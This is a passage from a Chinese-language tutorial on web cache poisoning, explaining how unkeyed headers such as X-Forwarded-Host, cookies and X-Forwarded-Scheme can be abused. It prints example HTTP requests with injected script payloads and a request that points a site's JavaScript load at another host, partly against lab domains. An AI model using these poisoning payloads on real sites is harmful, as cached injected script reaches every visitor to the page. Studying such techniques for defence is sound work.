 x-forwarded-host头的值用于动态生成image的URL，以上的案例可以这样利用：

```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

如果缓存了此响应，则将向/en?region=uk访问的所有用户都会收到XSS影响。

#### 2.cookie

Cookie有时也用于在响应中动态生成内容，如果cookie也存在非缓存键则也会收到影响。
示例：

```
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

需要注意的是，如果cookie被用户大量使用，则定期请求将清理缓存

#### 3.X-Forwarded-scheme/X-forwarded-Proto

X-Forwarded-scheme/X-Forwarded-Proto头：

当值不为https时，表示当前请求以http的方式发送，一般情况下都会返回302跳转到当前URL的https协议请求。当非缓存键是X-Forwarded-scheme头时，如果网站同时支持X-Forwarded-Host则可以通过两者结合达到web投毒的攻击效果

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

发送x-forwarded-scheme: http标头将导致 301 重定向到同一位置，这可以造成dos攻击
![](https://img-blog.csdnimg.cn/img_convert/07668aa0dad246f25ffd8fb3574cbeb5.png)
该应用程序还可能支持标头X-forwarded-host并将用户重定向到该主机，从而可以从攻击者服务器加载 javascript 文件：
![](https://img-blog.csdnimg.cn/img_convert/ab5c16b77d14fa42499af49cf300af70.png)

#### 4.返回缓存信息头

暴露太多的响应信息也可能会让攻击更容易

```
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```
